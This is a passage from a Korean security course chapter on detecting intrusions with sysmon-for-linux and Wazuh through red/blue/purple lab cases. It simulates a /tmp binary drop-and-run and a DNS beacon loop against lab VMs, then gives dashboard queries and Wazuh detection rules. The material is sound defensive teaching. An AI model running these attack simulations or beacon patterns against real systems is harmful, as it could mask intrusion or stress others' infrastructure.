- `/tmp/local_test_drop` — 의심 위치의 binary 실행. Event 1 ProcessCreate 발생.

세 줄이 3초 안에 실행되면 두 event 의 짧은 시간 간격이 만들어진다.

**2. 발생하는 로그/아티팩트.**

```
Event 11 FileCreate:
  Image=/usr/bin/cp, TargetFilename=/tmp/local_test_drop
  ProcessGuid={...X}

Event 1 ProcessCreate:
  Image=/tmp/local_test_drop, CommandLine="/tmp/local_test_drop"
  ParentImage=/usr/bin/sudo or /usr/bin/bash
  ProcessGuid={...Y}
```

두 event 의 timestamp 차이가 1초 이내라면 drop + 즉시 실행 패턴의 직접 증거다.

**3. Blue — Discover 의 두 event 시간순 결합.**

UI 클릭 흐름은 다음과 같다.

1. 좌측 햄버거 메뉴 → `Discover` 선택.
2. Index pattern `wazuh-alerts-*`.
3. Time picker `Last 15 minutes`.
4. Search bar 에 `agent.name:web AND rule.groups:sysmon AND (data.sysmon.TargetFilename:"/tmp/*" OR data.sysmon.Image:"/tmp/*")` 입력.
5. 좌측 `Available fields` 에서 `data.sysmon.EventID`, `data.sysmon.Image`, `data.sysmon.TargetFilename`, `data.sysmon.CommandLine` 를 columns 에 추가.

결과 화면에서 다음 두 줄이 시간순으로 보인다.

```
14:55:00  EventID=11  TargetFilename=/tmp/local_test_drop
14:55:01  EventID=1   Image=/tmp/local_test_drop  CommandLine="/tmp/local_test_drop"
```

두 줄의 시간 차이가 1초 이내면 drop + run 패턴이다.

다음으로 두 event 의 hash 비교도 본다.

1. Event 11 한 줄을 펼쳐 `data.sysmon.Hashes` (SHA256) 확인.
2. 같은 시각의 Event 1 한 줄에서도 같은 Hashes 가 보이는지 확인.
3. 두 hash 가 일치하면 같은 binary 의 drop + run 직접 증거.

**4. Blue — 대응 의사결정.**

학생이 다음 세 가지를 판단한다.

- **위치 의심도.** `/tmp/`, `/dev/shm/`, `/var/tmp/` 의 binary 실행은 거의 항상 의심이다.
- **hash reputation.** binary 의 SHA256 을 VirusTotal 또는 학습 환경의 OpenCTI (W12) 와 매칭. 학습 환경에서는 known hash 와 일치하지 않으면 unknown 으로 분류.
- **즉시 격리.** parent process 와 자식 process 모두 즉시 kill. 학습 환경에서는 자동 active-response 발동 가능.

**5. Purple — `/tmp` drop+run chain rule + mount noexec.**

다음 세 가지를 적용한다.

- **chain rule 추가.**

```xml
<group name="sysmon,local,">
  <rule id="100501" level="13" frequency="2" timeframe="5">
    <if_matched_sid>61615</if_matched_sid>
    <field name="data.sysmon.TargetFilename">^/tmp/|^/dev/shm/|^/var/tmp/</field>
    <description>LOCAL FileCreate followed by Execute in tmp</description>
  </rule>
</group>
```

- **mount noexec 적용.** `/etc/fstab` 의 `/tmp` 항목에 `noexec` 옵션을 추가한다. binary 실행 자체가 OS 단에서 막힌다.
- **scheduled hash check.** osquery 의 hash 테이블로 `/tmp/`, `/dev/shm/` 의 모든 file hash 를 매 시간 baseline 과 비교.

cleanup 은 다음 한 줄이다.

```bash
sudo rm -f /tmp/local_test_drop
```

### 11.5.3 케이스 3 — DnsQuery 의 C2 callback 의심 패턴

**0. 일상 비유 — 매장 안에서 외부로 메모 쪽지를 자주 보내는 사람.**

도둑이 매장 안에서 외부 동료에게 메모 쪽지를 자주 보낸다. 한 쪽지는 짧고 평범한 단어 (DNS 한 줄) 라 의심하기 어렵다. 그러나 같은 사람이 같은 도메인 또는 같은 IP 로 짧은 시간에 다수 보낸다면 패턴 자체가 단서가 된다. Event 22 DnsQuery 가 매장 안에서 발생한 모든 DNS query 를 한 줄로 기록한다.

| 일상 비유 | DNS C2 |
|-----------|--------|
| 외부로 메모 쪽지 | DNS query (도메인 조회) |
| 짧은 평범한 단어 | 짧은 정상 도메인 |
| 자주 같은 곳 | beacon 주기 (예: 60초 간격) |
| 패턴 자체가 단서 | Event 22 의 burst |

**0a. 사용 도구 사전 안내.**

- **sysmon Event 22 DnsQuery** — process 가 발생시킨 모든 DNS query 의 한 줄 기록.
- **`data.sysmon.QueryName`** — 조회된 도메인.
- **`data.sysmon.Image`** — 조회를 발생시킨 process.

**1. Red — 공격 재현.**

attacker VM 에서 web VM 의 SSH 진입 후, 짧은 시간에 같은 도메인을 다수 조회한다. 학습 환경 한정으로 실행한다.

```bash
ssh 6v6-attacker
ssh -o StrictHostKeyChecking=no admin@10.20.32.80

# web VM 안 (학습 환경 한정)
for i in $(seq 1 10); do
    dig +short A "beacon.local.lab" >/dev/null 2>&1
    sleep 6
done
```

각 줄의 의미는 다음과 같다.

- `for i in $(seq 1 10)` — 10번 반복.
- `dig +short A "beacon.local.lab"` — 학습용 도메인의 A record 조회.
- `sleep 6` — 6초 간격. 60초 안에 10 query 의 beacon 패턴.

C2 beacon 의 단순화 시뮬이다.

**2. 발생하는 로그/아티팩트.**

sysmon 이 각 DNS query 를 Event 22 한 줄로 기록한다.

```
Event 22 DnsQuery:
  Image=/usr/bin/dig, QueryName=beacon.local.lab, QueryType=A
  ProcessGuid={...}, QueryResults=...
```

같은 QueryName 이 같은 Image 에서 짧은 시간 안에 10번 발생한다.

**3. Blue — Event 22 의 burst 가시화.**

UI 클릭 흐름은 다음과 같다.

1. 좌측 햄버거 메뉴 → `Discover` 선택.
2. Index pattern `wazuh-alerts-*`.
3. Time picker `Last 15 minutes`.
4. Search bar 에 `agent.name:web AND data.sysmon.EventID:22` 입력.
5. 좌측 `Available fields` 에서 `data.sysmon.QueryName.keyword`, `data.sysmon.Image` 를 columns 에 추가.
6. 우상단 `Visualize` 버튼 → Date Histogram + Split series: `data.sysmon.QueryName.keyword`.

같은 QueryName 의 막대가 60초 간격으로 10번 보이는 시간 패턴이 beacon 의 직접 시그니처다.

다음으로 QueryName 별 top N 도 본다.

```
Aggregation: Terms on data.sysmon.QueryName.keyword
Top 5
```

학습 환경의 정상 도메인 (예: `juice.6v6.lab`, `dashboard.6v6.lab`) 이 아닌 도메인이 top 에 보이면 의심 신호다.

**4. Blue — 대응 의사결정.**

학생이 다음 세 가지를 판단한다.

- **beacon 주기 식별.** 일정 간격의 query 가 보이면 C2 beacon 의 직접 시그니처.
- **QueryName 길이 분포.** 정상 도메인은 30자 이하가 대부분. 60자 이상의 random subdomain 이 다수면 DGA (Domain Generation Algorithm) 의심.
- **Image 의 정상 여부.** dig, host, nslookup 외에 `/tmp/...` 또는 `/dev/shm/...` 같은 비표준 위치의 binary 가 DNS query 를 발생시키면 의심도가 매우 높다.

**5. Purple — DNS beacon rule.**

다음 한 줄짜리 rule 을 Wazuh 에 추가한다.

```xml
<group name="sysmon,local,">
  <rule id="100502" level="11" frequency="8" timeframe="120">
    <if_matched_sid>61644</if_matched_sid>
    <same_field>data.sysmon.QueryName</same_field>
    <description>LOCAL DNS Beacon - same query 8 times in 2 minutes: $(data.sysmon.QueryName)</description>
  </rule>
</group>
```

(`if_matched_sid` 는 Wazuh 의 기본 sysmon Event 22 rule id 에 맞게 조정.)

핵심은 다음 두 가지다.

- **`same_field` data.sysmon.QueryName.** 같은 도메인의 burst 만 매칭.
- **frequency 8 + timeframe 120.** 2분 안에 8회 이상의 burst.

추가로 sysmon config 의 Event 22 onmatch 를 좁힌다. 정상 운영 도메인 (`*.6v6.lab`) 을 exclude 해 운영 noise 를 줄인다.

### 11.5.4 본 절 정리

본 절은 W11 의 sysmon-for-linux 학습을 실제 공격 분석 cycle 에 연결했다. 학생이 다음 능력을 갖춘다.

- attacker VM 에서 bash → curl chain, /tmp drop + run, DNS beacon 의 세 가지 침해 패턴을 직접 재현한다.
- ProcessGuid + ParentProcessGuid 의 process tree 를 Wazuh Dashboard 에서 한 query 로 추적한다.
- Event 1 + 3 + 11 + 22 의 결합으로 단일 event 의 false positive 를 줄이고 chain 의 신뢰도를 올린다.
- chain rule 100500 ~ 100502 와 mount noexec 등의 보완으로 운영 baseline 을 강화한다.

다음 주차 W12 에서는 CTI (STIX / TAXII / OpenCTI) 의 표준과 도구를 같은 R/B/P cycle 로 학습한다.

---

## 12. 한국 사례 + 표준

### 12.1 ISMS-P 2.9.6

이상행위 감지 — sysmon 의 Event 1/3/11 매핑.

### 12.2 Sigma rule 표준

```
https://github.com/SigmaHQ/sigma
Linux 카테고리의 대부분이 sysmon EventID 기반
한국 ISAC / KISA 와 community share
```

---

## 13. 과제

### A. sysmon 설치 + 검증 (필수, 40점)

본 lab 의 4 호스트 (web / fw / ips / bastion) 에 sysmon 설치 + config 적용 +
Event 발생 검증.

(인프라 변경 필요 — Dockerfile patch + 재빌드)

### B. config XML 작성 (심화, 30점)

본 lab 환경에 맞는 filter 5+ 작성 + xmllint syntax 검증 + ATT&CK Technique 매핑.

### C. Wazuh 통합 decoder + rule (정성, 30점)

sysmon Event 1/3/11 의 Wazuh decoder + rule 작성 + 가상 시뮬.

---

## 14. 핵심 정리 (10 줄)

1. **sysmon-for-linux** = Microsoft 의 2021 Sysmon 포팅 + eBPF 기반
2. **Sysmon EventID 호환** (1/3/5/11/22/23 등)
3. **eBPF** = 모던 + 안전 + 가벼움 (auditd 보다)
4. **9 핵심 EventID** — ProcessCreate / NetworkConnect / FileCreate / DnsQuery 등
5. **config XML** + filter (include / exclude + 10 condition)
6. **SwiftOnSecurity / Olaf Hartong** = community config 표준
7. **Wazuh 통합** — localfile + decoder + rule
8. **osquery + sysmon** = 보완 운영 (snapshot + stream)
9. **W11 R/B/P** — Red curl→/tmp/payload → sysmon 3 Event → Wazuh
10. **W12 (OpenCTI 개론)** 다음 주차 — CTI 표준 (STIX / TAXII)
